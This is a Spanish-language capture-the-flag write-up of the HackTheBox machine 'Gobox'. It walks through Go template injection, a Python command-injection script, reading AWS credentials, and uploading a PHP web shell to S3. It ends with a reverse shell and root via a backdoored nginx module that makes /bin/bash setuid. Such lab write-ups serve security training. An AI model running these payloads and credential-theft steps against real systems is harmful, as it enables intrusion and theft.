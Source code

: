 ```yaml
---
layout: post
title: Gobox
image: /assets/img/machines/axlle/axlle1.JPG
accent_image:
  background: url('/assets/img/guero.jpg') center/cover
  overlay: false
subtitle: "Easy Machine"
categories: machines
tags: [htb]
---
```


Vemos el puerto 80 y 8080, donde en el puerto 80 no encontramos nada interesante pero en el 8080 encontramos un login.

![imagen1](/assets/img/machines/gobox/gobox.png)

![imagen2](/assets/img/machines/gobox/gobox2.png)
En este punto vemos por medio de burpsuite que estamos en un servidor golang e intentamos un ssti.

![imagen3](/assets/img/machines/gobox/gobox3.png)

![imagen4](/assets/img/machines/gobox/gobox4.png)

Con un "{\{ . }\}" obtenemos un correo y una contraseña por lo que lo usamos en el login y dentro encontramos una función que nos permite mediante el input inyectar comandos.

```go
func (u User) DebugCmd (test string) string {
  ipp := strings.Split(test, " ")
  bin := strings.Join(ipp[:1], " ")
  args := strings.Join(ipp[1:], " ")
  if len(args) > 0{
    out, _ := exec.Command(bin, args).CombinedOutput()
    return string(out)
  } else {
    out, _ := exec.Command(bin).CombinedOutput()
    return string(out)
  }
}
```

Por el ssti nos permite llamar a objetos y funciones internas del código existente, por lo que pegamos la función y el comando para ejecutar comandos.

![imagen5](/assets/img/machines/gobox/gobox5.png)

En este punto para práctica nos montamos un script en python para poder ejecutar comandos más facilmente.

```python
from pwn import *
import os, requests, pdb, sys, signal, time

def def_handler(sig, frame):
    print("\n\nSaliendo...\n\n")
    sys.exit(1)


#Variables Globales
main_url = "http://10.10.11.113:8080/forgot/"

#CTRL+C
signal.signal(signal.SIGINT, def_handler)


def makerequest(command):
    data_post = {
    'email':"test@{\{ .DebugCmd " %s " }\}" % command
    }
    
    r = requests.post(main_url, data=data_post)

    output = ((re.findall(r'Email Sent To:(.*)\s+<button class',r.text, re.DOTALL))[0].replace("\n\n\n             ","\n")).replace("test@","")

    print(output)
    
if __name__ == '__main__':
    while True:
        command = input(">")
        command = command.strip()
        makerequest(command)      

```

Al hacer un `hostname -i` vemos que se llama `aws` por lo que procedemo a aplicar comando en aws. Nos encontramos credenciales en `.aws` y en `env` para que podamos conectarnos en nuestra máquina.

```shell
>cat ~/.aws/credentials
 [default]
aws_access_key_id=SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz
aws_secret_access_key=SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz

>env
 HOSTNAME=aws
PWD=/opt/uhc
HOME=/root
AWS_SECRET_ACCESS_KEY=SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz
SHLVL=0
AWS_ACCESS_KEY_ID=SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
DEBIAN_FRONTEND=noninteractive
```

Nos conectamos desde nuestra máquina

```shell
>aws s3 ls
 2022-09-30 05:32:15 website

>aws s3 ls s3://website
                            PRE css/
2022-09-30 05:32:16    1294778 bottom.png
2022-09-30 05:32:15     165551 header.png
2022-09-30 05:32:15          5 index.html
2022-09-30 05:32:15       1803 index.php
```

Dentro de index.html vemos que dice test y yendo hacia la página principal y poniendo index.html nos pone test, por lo que podríamos subir un archivo para ejecutar comando en php.

```php
<? "<pre> .  shell_exec($_REQUEST['cmd']) . "</pre>;
```

Mediante `base64` nos pasamos el contenido lo ponemos en la máquina víctima.

```shell
>aws s3 cp /tmp/reverse.php s3://website/reverse.php
upload: ../../tmp/reverse.php to s3://website/reverse.php
```

![imagen6](/assets/img/machines/gobox/gobox6.png)

Nos entablamos una reverse shell y estamos dentro.

```shell
www-data@gobox:/etc/nginx/modules-enabled$ ls
50-backdoor.conf	      50-mod-http-xslt-filter.conf  50-mod-stream.conf
50-mod-http-image-filter.conf  50-mod-mail.conf
www-data@gobox:/etc/nginx/modules-enabled$ cat 50-backdoor.conf 
load_module modules/ngx_http_execute_module.so;
www-data@gobox:/etc/nginx/modules-enabled$ find / -name ngx_http_execute_module.so 2>/dev/null
/usr/lib/nginx/modules/ngx_http_execute_module.so
www-data@gobox:/etc/nginx/modules-enabled$ strings /usr/lib/nginx/modules/ngx_http_execute_module.so | grep ".run"
ippsec.run
```
Vemos que la máquina había sido vulnerada antes, y tiene un archivo `ngx_http_execute_module.so` buscando en google se ve que se puede ejecutar comandos con curl, pero al hacer un strings al archivo
observamos que hay un `ippsec.run` que sustituye al system.run en curl.

```shell
www-data@gobox:/etc/nginx/modules-enabled$ curl 'http://localhost:8000/?ippsec.run[whoami]'
root
www-data@gobox:/etc/nginx/modules-enabled$ curl "http://localhost:8000/?ippsec.run[chmod%204755%20%2fbin%2fbash]"
curl: (52) Empty reply from server
www-data@gobox:/etc/nginx/modules-enabled$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```
Hacemos un bash -p y estamos dentro como root.